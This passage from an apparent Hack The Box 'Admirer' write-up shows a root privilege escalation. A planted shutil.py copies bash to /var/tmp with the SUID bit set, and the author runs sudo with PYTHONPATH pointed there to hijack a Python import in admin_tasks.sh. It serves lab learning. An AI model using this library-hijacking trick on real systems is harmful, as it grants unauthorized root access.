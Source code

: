 > PYTHONPATH is an environment variable which you can set to add additional directories where python will look for modules and packages.

So I created `[shutil.py](http://shutil.py)` in `/var/tmp` which helps me to get root.

```python
waldo@admirer:/var/tmp$ cat shutil.py 
import os
os.system('cp /bin/bash /var/tmp;chmod 4755 /var/tmp/bash')
```

What this will do? This will copy the `bash` to `/var/tmp`  and give SETUID to the binary.

```python
waldo@admirer:/opt/scripts$ export PYTHONPATH=/var/tmp
```

> sudo PYTHONPATH=/var/tmp /opt/scripts/admin_tasks.sh

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-admirer/Untitled%2014.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-admirer/Untitled%2014.png)

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-admirer/Untitled%2015.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-admirer/Untitled%2015.png)

We Own the Root!!